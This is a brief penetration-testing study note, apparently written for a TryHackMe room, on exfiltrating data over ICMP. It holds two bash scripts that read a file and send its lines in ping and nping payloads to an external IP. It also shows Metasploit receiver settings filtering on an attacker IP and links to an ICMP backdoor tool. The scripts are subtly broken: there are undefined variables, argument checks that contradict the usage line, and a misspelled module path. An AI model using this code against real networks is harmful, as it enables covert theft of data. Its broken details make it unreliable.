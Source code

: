 # Data Exfiltration Over ICMP

Use of the [[Internet-Control-Messaging-Protocol]]'s Data section and sending it via `ICMP` to exfiltration target location outside the network.

A simple bash script, but remember to start packet capture before running!
```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
        echo "Usage: $0 <file path> <IP address>"
        exit
fi

data=$(cat $filepath)
for line in $data; do
	foricmp=$(echo $line | xxd -p)
	ping $ip -c 1 -p $foricmp
done
```

## Metasploit

[[Metasploit]] can perform ICMP data exfiltration with the `auxilirary/server/icmp_exfil` module

```ruby
msfX > use auxiliary/server/icmp_exfil
# Set the BPF_FILTER option
# This based on TCPDUMP rules - capture only packet from Data host
set BPF_FILTER icmp and not src <attacker-ip>
set INTERFACE # to some interface recieve the data
```
On Data host, `nping` is default ICMP transmitter
```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
        echo "Usage: $0 <file path> <IP address>"
        exit
fi

data=$(cat $1)
sudo nping --icmp -c 1 $2 --data-string "BOFfile.txt"
for line in $data; do
        sudo nping --icmp -c 1 $2 --data-string "$line"
done
sudo nping --icmp -c 1 $2 --data-string "EOFfile.txt"
exit
```

It acommplishes this by capturing the incoming ICMP packets and wait for Beginning of File trigger value then writes to disk until it recieves a End of File trigger value.


## 

[ICMPdoor](https://github.com/krabelize/icmpdoor)



## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)